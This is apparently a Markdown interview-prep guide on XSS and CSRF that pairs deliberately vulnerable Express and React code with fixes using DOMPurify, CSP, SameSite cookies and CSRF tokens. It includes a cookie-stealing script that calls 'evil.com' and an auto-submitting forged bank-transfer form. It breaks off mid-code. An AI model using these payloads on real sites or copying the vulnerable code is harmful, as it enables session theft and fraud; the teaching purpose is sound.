





# XSS & CSRF Protection

## Q1: What is XSS (Cross-Site Scripting) and what are the different types?

### Answer:
Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. XSS occurs when an application includes untrusted data in a web page without proper validation or escaping. These scripts execute in the victim's browser and can steal cookies, session tokens, redirect users to malicious sites, or modify page content.

There are three main types of XSS: Stored XSS (persistent), Reflected XSS (non-persistent), and DOM-based XSS. Each type has different attack vectors and requires specific prevention strategies.

### XSS Attack Flow:



### Types of XSS:

**1. Stored XSS (Persistent)**

The malicious script is permanently stored on the server (database, file system, etc.) and executed when users view the affected page.

```javascript
// VULNERABLE CODE - Stored XSS
app.post('/comments', async (req, res) => {
  const { comment } = req.body;
  // No sanitization - stores malicious script directly
  await db.comments.insert({ text: comment, userId: req.user.id });
  res.redirect('/comments');
});

app.get('/comments', async (req, res) => {
  const comments = await db.comments.findAll();
  // Renders stored malicious scripts
  res.render('comments', { comments });
});

// Template (EJS) - directly outputs user content
// <% comments.forEach(comment => { %>
//   <div><%= comment.text %></div>  <!-- UNSAFE! -->
// <% }); %>

// Attacker submits:
// <script>fetch('https://evil.com?cookie='+document.cookie)</script>
// This executes for every user viewing comments
```

**2. Reflected XSS (Non-Persistent)**

The malicious script is reflected off the server in response to a request, typically via URL parameters or form data.

```javascript
// VULNERABLE CODE - Reflected XSS
app.get('/search', (req, res) => {
  const query = req.query.q;
  // Directly includes user input in response
  res.send(`<h1>Search results for: ${query}</h1>`);
});

// Attacker creates malicious link:
// https://example.com/search?q=<script>alert(document.cookie)</script>
// When victim clicks link, script executes in their browser

// React VULNERABLE CODE
function SearchResults() {
  const [query] = useSearchParams();
  const searchTerm = query.get('q');

  // Using dangerouslySetInnerHTML with user input
  return (
    <div
      dangerouslySetInnerHTML={{
        __html: `Results for: ${searchTerm}` // UNSAFE!
      }}
    />
  );
}
```

**3. DOM-based XSS**

The vulnerability exists in client-side code where JavaScript processes user input and dynamically updates the DOM without proper sanitization.

```javascript
// VULNERABLE CODE - DOM-based XSS
function displayWelcome() {
  // Reading from URL hash
  const name = window.location.hash.substring(1);

  // Directly inserting into DOM
  document.getElementById('welcome').innerHTML = `Welcome, ${name}!`;
}

// Attacker creates malicious link:
// https://example.com/#

// React VULNERABLE CODE
function UserProfile() {
  const { userId } = useParams();

  // Vulnerable if userId is used in innerHTML or eval
  useEffect(() => {
    // UNSAFE - executing user-controlled data
    eval(`console.log('User ${userId} loaded')`);
  }, [userId]);
}

// Vanilla JS - Common vulnerable patterns
// 1. innerHTML with user data
element.innerHTML = userInput; // UNSAFE

// 2. eval with user data
eval(userInput); // UNSAFE

// 3. document.write with user data
document.write(userInput); // UNSAFE

// 4. setTimeout/setInterval with string
setTimeout(userInput, 1000); // UNSAFE

// 5. location manipulation
window.location = userInput; // Can be UNSAFE
```

### Comparison Table:

| Type | Storage | Attack Vector | Persistence | Impact |
|------|---------|---------------|-------------|--------|
| **Stored XSS** | Server-side | Database, file system | Persistent | High - affects all users |
| **Reflected XSS** | None | URL, form parameters | Non-persistent | Medium - requires victim click |
| **DOM-based XSS** | Client-side | URL fragments, DOM | Non-persistent | Medium - requires victim click |

### Key Points:
- XSS allows attackers to execute arbitrary JavaScript in victim browsers
- Stored XSS is most dangerous as it affects all users automatically
- Reflected XSS requires social engineering to trick users into clicking links
- DOM-based XSS occurs entirely in the browser without server involvement
- All types can steal sensitive data, hijack sessions, or perform actions as the victim
- XSS can bypass Same-Origin Policy by executing in the trusted origin

### Common Pitfalls:
- Trusting user input without validation or sanitization
- Using innerHTML, eval, or document.write with user data
- Not encoding output when rendering user content
- Relying solely on client-side validation
- Assuming URL parameters or fragments are safe

### Interview Tips:
- Clearly distinguish between the three XSS types with examples
- Explain that XSS executes in the victim's browser, not the attacker's
- Discuss the impact: cookie theft, session hijacking, keylogging, defacement
- Mention that modern frameworks (React, Vue) provide some automatic protection
- Emphasize defense-in-depth: validation, sanitization, encoding, CSP

### Further Reading:
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PortSwigger XSS Guide](https://portswigger.net/web-security/cross-site-scripting)

---

## Q2: How do you prevent XSS attacks in a React application?

### Answer:
Preventing XSS in React applications requires multiple layers of defense. React provides automatic XSS protection by escaping content in JSX expressions, but developers must avoid dangerous APIs like dangerouslySetInnerHTML and handle user input carefully. Key prevention strategies include: using React's safe defaults, sanitizing HTML when absolutely necessary, validating and encoding user input, implementing Content Security Policy, and avoiding dangerous patterns.

React's JSX automatically escapes values, making it safe by default. However, bypassing this protection or using certain APIs can reintroduce XSS vulnerabilities. A comprehensive approach combines React's built-in protections with additional security measures.

### Safe vs Unsafe React Patterns:

```javascript
// SAFE - React automatically escapes
function SafeComponent({ userInput }) {
  // React escapes special characters in JSX expressions
  return <div>{userInput}</div>;
  // If userInput = "<script>alert('xss')</script>"
  // Renders as: &lt;script&gt;alert('xss')&lt;/script&gt;
}

// UNSAFE - dangerouslySetInnerHTML bypasses protection
function UnsafeComponent({ userInput }) {
  return (
    <div dangerouslySetInnerHTML={{ __html: userInput }} />
  );
  // Script executes! NEVER do this with user input
}

// SAFE - Using DOMPurify to sanitize HTML
import DOMPurify from 'dompurify';

function SafeHTMLComponent({ userHTML }) {
  const sanitized = DOMPurify.sanitize(userHTML, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p'],
    ALLOWED_ATTR: ['href']
  });

  return (
    <div dangerouslySetInnerHTML={{ __html: sanitized }} />
  );
}

// UNSAFE - URL in href without validation
function UnsafeLink({ userURL }) {
  return <a href={userURL}>Click here</a>;
  // userURL could be: javascript:alert(document.cookie)
}

// SAFE - Validate and sanitize URLs
function SafeLink({ userURL }) {
  const sanitizeURL = (url) => {
    try {
      const parsed = new URL(url);
      // Only allow http and https protocols
      if (parsed.protocol === 'http:' || parsed.protocol === 'https:') {
        return url;
      }
    } catch {
      // Invalid URL
    }
    return '#'; // Safe fallback
  };

  return <a href={sanitizeURL(userURL)}>Click here</a>;
}
```

### Comprehensive XSS Prevention Implementation:

```javascript
// utils/sanitize.js - Sanitization utilities
import DOMPurify from 'dompurify';

export const sanitizeHTML = (dirty, options = {}) => {
  const defaultOptions = {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'ol', 'li'],
    ALLOWED_ATTR: ['href', 'title', 'target'],
    ALLOW_DATA_ATTR: false,
  };

  return DOMPurify.sanitize(dirty, { ...defaultOptions, ...options });
};

export const sanitizeURL = (url) => {
  if (!url) return '#';

  try {
    const parsed = new URL(url, window.location.origin);

    // Whitelist safe protocols
    const safeProtocols = ['http:', 'https:', 'mailto:'];

    if (safeProtocols.includes(parsed.protocol)) {
      return url;
    }
  } catch (error) {
    console.warn('Invalid URL:', url);
  }

  return '#'; // Safe fallback
};

export const escapeHTML = (str) => {
  const div = document.createElement('div');
  div.textContent = str;
  return div.innerHTML;
};

export const validateInput = (input, maxLength = 1000) => {
  if (typeof input !== 'string') {
    throw new Error('Input must be a string');
  }

  if (input.length > maxLength) {
    throw new Error(`Input exceeds maximum length of ${maxLength}`);
  }

  // Remove null bytes
  return input.replace(/\0/g, '');
};

// components/SafeHTML.jsx - Safe HTML rendering component
import { sanitizeHTML } from '../utils/sanitize';

export function SafeHTML({ html, allowedTags, allowedAttributes }) {
  const sanitized = sanitizeHTML(html, {
    ALLOWED_TAGS: allowedTags,
    ALLOWED_ATTR: allowedAttributes,
  });

  return (
    <div
      dangerouslySetInnerHTML={{ __html: sanitized }}
      className="user-content"
    />
  );
}

// components/UserComment.jsx - Safe comment rendering
import { sanitizeHTML } from '../utils/sanitize';
import { format } from 'date-fns';

export function UserComment({ comment, author, createdAt }) {
  // Sanitize comment HTML while allowing basic formatting
  const sanitizedComment = sanitizeHTML(comment.text, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br'],
    ALLOWED_ATTR: []
  });

  return (
    <div className="comment">
      <div className="comment-header">
        <span className="author">{author.name}</span>
        <time>{format(new Date(createdAt), 'PPp')}</time>
      </div>
      <div
        className="comment-body"
        dangerouslySetInnerHTML={{ __html: sanitizedComment }}
      />
    </div>
  );
}

// components/ExternalLink.jsx - Safe external link component
import { sanitizeURL } from '../utils/sanitize';

export function ExternalLink({ href, children, ...props }) {
  const safeHref = sanitizeURL(href);

  return (
    <a
      href={safeHref}
      target="_blank"
      rel="noopener noreferrer" // Prevent window.opener attacks
      {...props}
    >
      {children}
    </a>
  );
}

// hooks/useSecureFormInput.js - Secure form input handling
import { useState, useCallback } from 'react';
import { validateInput } from '../utils/sanitize';

export function useSecureFormInput(initialValue = '', maxLength = 1000) {
  const [value, setValue] = useState(initialValue);
  const [error, setError] = useState(null);

  const handleChange = useCallback((e) => {
    const newValue = e.target.value;

    try {
      const validated = validateInput(newValue, maxLength);
      setValue(validated);
      setError(null);
    } catch (err) {
      setError(err.message);
    }
  }, [maxLength]);

  const reset = useCallback(() => {
    setValue(initialValue);
    setError(null);
  }, [initialValue]);

  return { value, onChange: handleChange, error, reset };
}

// Usage example
function CommentForm({ onSubmit }) {
  const comment = useSecureFormInput('', 5000);

  const handleSubmit = async (e) => {
    e.preventDefault();

    if (!comment.error && comment.value.trim()) {
      await onSubmit(comment.value);
      comment.reset();
    }
  };

  return (
    <form onSubmit={handleSubmit}>
      <textarea
        value={comment.value}
        onChange={comment.onChange}
        placeholder="Write your comment..."
        maxLength={5000}
      />
      {comment.error && <div className="error">{comment.error}</div>}
      <button type="submit">Submit</button>
    </form>
  );
}
```

### Server-Side Validation (Essential):

```javascript
// Backend - Node.js/Express with validation
import express from 'express';
import { body, validationResult } from 'express-validator';
import createDOMPurify from 'dompurify';
import { JSDOM } from 'jsdom';

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

const app = express();

app.post('/api/comments',
  // Validation middleware
  [
    body('text')
      .trim()
      .isLength({ min: 1, max: 5000 })
      .withMessage('Comment must be 1-5000 characters'),
    body('text')
      .customSanitizer(value => {
        // Server-side HTML sanitization
        return DOMPurify.sanitize(value, {
          ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br'],
          ALLOWED_ATTR: []
        });
      })
  ],
  async (req, res) => {
    // Check validation results
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }

    const { text } = req.body;

    // Additional server-side checks
    if (text.includes('<script')) {
      return res.status(400).json({
        error: 'Invalid content detected'
      });
    }

    // Store sanitized content
    const comment = await db.comments.create({
      text: text,
      userId: req.user.id,
      createdAt: new Date()
    });

    res.json({ comment });
  }
);
```

### Content Security Policy (CSP):

```javascript
// Backend - Set CSP headers
import helmet from 'helmet';

app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "'unsafe-inline'"], // Avoid 'unsafe-inline' in production
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["'self'", 'data:', 'https:'],
      connectSrc: ["'self'", 'https://api.example.com'],
      fontSrc: ["'self'"],
      objectSrc: ["'none'"],
      upgradeInsecureRequests: [],
    },
  })
);

// Frontend - Meta tag (if CSP header not available)
// In your index.html or React Helmet
<Helmet>
  <meta
    httpEquiv="Content-Security-Policy"
    content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';"
  />
</Helmet>
```

### Key Points:
- React's JSX automatically escapes content in expressions
- Never use dangerouslySetInnerHTML with unsanitized user input
- Always sanitize HTML using DOMPurify before rendering
- Validate and sanitize URLs before using in href or src attributes
- Implement server-side validation and sanitization (never trust client)
- Use Content Security Policy to restrict script execution
- Avoid eval(), Function(), and other code execution APIs

### Common Pitfalls:
- Using dangerouslySetInnerHTML without sanitization
- Trusting user input in URL attributes (javascript: protocol)
- Only validating on client-side (bypass with DevTools)
- Using outdated or misconfigured sanitization libraries
- Not implementing CSP headers
- Allowing inline scripts in CSP without nonces

### Interview Tips:
- Explain React's automatic escaping in JSX expressions
- Discuss when dangerouslySetInnerHTML might be necessary (rich text)
- Emphasize server-side validation as the primary defense
- Show practical DOMPurify usage with whitelist approach
- Mention CSP as defense-in-depth layer
- Discuss the balance between functionality and security

### Further Reading:
- [React Security Best Practices](https://reactjs.org/docs/dom-elements.html#dangerouslysetinnerhtml)
- [DOMPurify Documentation](https://github.com/cure53/DOMPurify)
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)

---

## Q3: What is CSRF (Cross-Site Request Forgery) and how does it work?

### Answer:
CSRF (Cross-Site Request Forgery) is an attack that tricks a victim into performing unwanted actions on a web application where they're authenticated. Unlike XSS which executes malicious scripts in the victim's browser, CSRF exploits the browser's automatic inclusion of credentials (cookies, auth headers) with requests to the target site.

The attack works because browsers automatically send cookies with every request to a domain, regardless of which site initiated the request. If a user is logged into their bank and visits a malicious site, that site can trigger requests to the bank using the user's session cookie. CSRF can lead to unauthorized fund transfers, account changes, or data theft.

### CSRF Attack Flow:



### How CSRF Attacks Work:

**1. Cookie-Based CSRF**

```html
<!-- Attacker's malicious website (evil.com) -->
<!DOCTYPE html>
<html>
<head>
  <title>Free Gift!</title>
</head>
<body>
  <h1>Claim Your Free Gift!</h1>

  <!-- Hidden form that auto-submits -->
  <form
    id="csrf-form"
    action="https://bank.example.com/transfer"
    method="POST"
    style="display:none;"
  >
    <input name="to" value="attacker-account" />
    <input name="amount" value="10000" />
  </form>

  <script>
    // Auto-submit when page loads
    document.getElementById('csrf-form').submit();
  </script>

  <!-- Or using an image tag for GET requests -->
  
</body>
</html>
```

**2. CSRF via Fetch/XMLHttpRequest**

```javascript
// Attacker's JavaScript on evil.com
// Attempts CSRF using fetch (may be blocked by CORS)
fetch('https://bank.example.com/api/transfer', {
  method: 'POST',
  credentials: 'include', // Include cookies
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
    to: 'attacker-account',
    amount: 10000
  })
});

// Note: CORS may block this, but:
// 1. Simple requests (no custom headers) bypass CORS preflight
// 2. Even if CORS blocks the response, the request still executes!
// 3. Form submissions always work regardless of CORS
```

**3. CSRF with JSON API**

```javascript
// Vulnerable API endpoint
// Backend - Node.js/Express
app.post('/api/transfer', (req, res) => {
  // Session exists because browser sends cookie automatically
  if (!req.session.userId) {
    return res.status(401).json({ error: 'Not authenticated' });
  }

  const { to, amount } = req.body;

  // VULNERABLE: No CSRF protection
  // This will execute for requests from any origin!
  performTransfer(req.session.userId, to, amount);

  res.json({ success: true });
});

// Attacker can trigger this from evil.com using:
// 1. Form submission (works always)
// 2. Fetch with simple requests (no custom headers)
// 3. Hidden iframe
```

### CSRF Attack Vectors:

```html
<!-- Method 1: Auto-submitting form -->
<form action="https://victim.com/delete-account" method="POST">
  <input type="hidden" name="confirm" value="yes" />
</form>
<script>document.forms[0].submit();</script>

<!-- Method 2: Image tag (GET requests only) -->


<!-- Method 3: Link with social engineering -->
<a href="https://victim.com/api/delete?id=123">
  Click for free prize!
</a>

<!-- Method 4: Hidden iframe -->
<iframe style="display:none" src="https://victim.com/dangerous-action"></iframe>

<!-- Method 5: CSS background image (GET requests) -->
<div style="background:url('https://victim.com/api/action')"></div>
```

### Why CSRF Works:

```javascript
// The root cause: Browsers automatically include credentials

// When victim visits evil.com, and evil.com makes a request to bank.com:

// Request from evil.com to bank.com
POST /transfer HTTP/1.1
Host: bank.com
Cookie: session=abc123  <-- Browser automatically includes this!
Content-Type: application/x-www-form-urlencoded

to=attacker&amount=10000

// The server sees:
// ✅ Valid session cookie
// ✅ Proper format
// ❌ NO way to know this came from evil.com, not bank.com
```

### CSRF vs XSS:

| Aspect | CSRF | XSS |
|--------|------|-----|
| **Attack Type** | Forged requests | Injected scripts |
| **Executes** | On server (as victim) | In victim's browser |
| **Requires** | Active session | Vulnerable input handling |
| **Can steal data** | No (no access to response) | Yes |
| **Can perform actions** | Yes (using victim's credentials) | Yes |
| **Prevented by** | CSRF tokens, SameSite cookies | Input sanitization, CSP |
| **CORS protects** | Only response reading | No |

### Key Points:
- CSRF exploits the browser's automatic inclusion of cookies with requests
- Attacker can trigger actions but cannot read the response (due to Same-Origin Policy)
- Particularly dangerous for state-changing operations (POST, PUT, DELETE)
- GET requests should never modify state (prevents some CSRF vectors)
- CORS does not prevent CSRF (only blocks reading responses)
- Modern browsers' SameSite cookie attribute provides basic protection

### Common Pitfalls:
- Assuming CORS prevents CSRF (it doesn't fully)
- Using GET requests for state-changing operations
- Not implementing CSRF protection for authenticated endpoints
- Trusting the Referer header (can be stripped or spoofed)
- Only protecting POST requests (GET can still be exploited)

### Interview Tips:
- Explain that CSRF tricks the victim's browser, not the victim directly
- Emphasize the automatic cookie inclusion mechanism
- Discuss why Same-Origin Policy doesn't prevent CSRF
- Mention that modern frameworks often include CSRF protection
- Explain the difference between CSRF and XSS clearly
- Show awareness of SameSite cookie attribute

### Further Reading:
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger CSRF Guide](https://portswigger.net/web-security/csrf)

---

## Q4: How do you prevent CSRF attacks in a modern web application?

### Answer:
CSRF prevention requires implementing multiple defense mechanisms. The primary defenses are: CSRF tokens (synchronizer token pattern), SameSite cookie attribute, custom request headers, and double-submit cookies. For single-page applications, using stateless CSRF tokens or relying on SameSite cookies with custom headers provides robust protection.

The most effective approach combines SameSite cookies (first line of defense) with CSRF tokens for critical operations. Modern browsers support SameSite=Lax by default, which prevents CSRF for POST requests from cross-origin sites, but additional protection is recommended for sensitive applications.

### CSRF Prevention Strategies:



### 1. SameSite Cookie Attribute:

```javascript
// Backend - Setting SameSite cookies (Node.js/Express)
app.post('/auth/login', async (req, res) => {
  const { username, password } = req.body;
  const user = await authenticateUser(username, password);

  if (user) {
    const token = generateToken(user);

    res.cookie('session', token, {
      httpOnly: true,        // Prevent XSS
      secure: true,          // HTTPS only
      sameSite: 'strict',    // CSRF protection
      maxAge: 24 * 60 * 60 * 1000  // 24 hours
    });

    res.json({ success: true, user });
  } else {
    res.status(401).json({ error: 'Invalid credentials' });
  }
});

// SameSite options explained:
// - Strict: Cookie never sent on cross-site requests (breaks some legitimate flows)
// - Lax: Cookie sent on top-level navigation (GET), not on POST/API calls
// - None: No protection (requires Secure flag, HTTPS only)

// Recommended for most apps:
sameSite: 'lax'  // Balances security and usability
```

### 2. CSRF Token Pattern (Synchronizer Token):

```javascript
// Backend - Generate and validate CSRF tokens
import crypto from 'crypto';

// Store tokens in memory (or Redis for distributed systems)
const csrfTokens = new Map();

// Generate CSRF token for session
app.get('/api/csrf-token', (req, res) => {
  if (!req.session.userId) {
    return res.status(401).json({ error: 'Not authenticated' });
  }

  // Generate cryptographically secure token
  const token = crypto.randomBytes(32).toString('hex');

  // Store token associated with session
  csrfTokens.set(req.session.id, token);

  res.json({ csrfToken: token });
});

// Middleware to validate CSRF token
const validateCSRFToken = (req, res, next) => {
  // Skip for GET, HEAD, OPTIONS (safe methods)
  if (['GET', 'HEAD', 'OPTIONS'].includes(req.method)) {
    return next();
  }

  const tokenFromRequest = req.headers['x-csrf-token'] || req.body._csrf;
  const tokenFromSession = csrfTokens.get(req.session.id);

  if (!tokenFromRequest || !tokenFromSession) {
    return res.status(403).json({ error: 'CSRF token missing' });
  }

  // Constant-time comparison to prevent timing attacks
  if (!crypto.timingSafeEqual(
    Buffer.from(tokenFromRequest),
    Buffer.from(tokenFromSession)
  )) {
    return res.status(403).json({ error: 'Invalid CSRF token' });
  }

  next();
};

// Apply to protected routes
app.post('/api/transfer', validateCSRFToken, async (req, res) => {
  const { to, amount } = req.body;
  await performTransfer(req.session.userId, to, amount);
  res.json({ success: true });
});

// Frontend - React implementation
import { create } from 'zustand';
import api from './api';

export const useCSRF = create((set) => ({
  csrfToken: null,

  fetchCSRFToken: async () => {
    const response = await api.get('/api/csrf-token');
    set({ csrfToken: response.data.csrfToken });
    return response.data.csrfToken;
  },

  clearCSRFToken: () => set({ csrfToken: null }),
}));

// Axios interceptor to include CSRF token
import axios from 'axios';

const api = axios.create({
  baseURL: '/api',
  withCredentials: true,
});

api.interceptors.request.use(
  async (config) => {
    // Add CSRF token to state-changing requests
    if (['post', 'put', 'patch', 'delete'].includes(config.method)) {
      const { csrfToken, fetchCSRFToken } = useCSRF.getState();

      // Fetch token if not available
      const token = csrfToken || await fetchCSRFToken();

      config.headers['X-CSRF-Token'] = token;
    }

    return config;
  },
  (error) => Promise.reject(error)
);

// Component usage
function TransferForm() {
  const { csrfToken, fetchCSRFToken } = useCSRF();

  useEffect(() => {
    // Fetch CSRF token on mount
    if (!csrfToken) {
      fetchCSRFToken();
    }
  }, [csrfToken, fetchCSRFToken]);

  const handleSubmit = async (e) => {
    e.preventDefault();

    // CSRF token automatically included by interceptor
    const response = await api.post('/api/transfer', {
      to: 'recipient',
      amount: 100
    });

    console.log('Transfer successful:', response.data);
  };

  return (
    <form onSubmit={handleSubmit}>
      {/* Form fields */}
      <button type="submit" disabled={!csrfToken}>
        Transfer
      </button>
    </form>
  );
}
```

### 3. Double Submit Cookie Pattern:

```javascript
// Backend - Double Submit Cookie (stateless)
app.post('/api/transfer', (req, res) => {
  // Get token from cookie and header
  const tokenFromCookie = req.cookies.csrfToken;
  const tokenFromHeader = req.headers['x-csrf-token'];

  // Validate that both exist and match
  if (!tokenFromCookie || !tokenFromHeader) {
    return res.status(403).json({ error: 'CSRF token missing' });
  }

  if (tokenFromCookie !== tokenFromHeader) {
    return res.status(403).json({ error: 'CSRF token mismatch' });
  }

  // Process request
  performTransfer(req.session.userId, req.body.to, req.body.amount);
  res.json({ success: true });
});

// Set CSRF cookie on login
app.post('/auth/login', (req, res) => {
  const user = authenticateUser(req.body.username, req.body.password);

  if (user) {
    const csrfToken = crypto.randomBytes(32).toString('hex');

    // Set session cookie
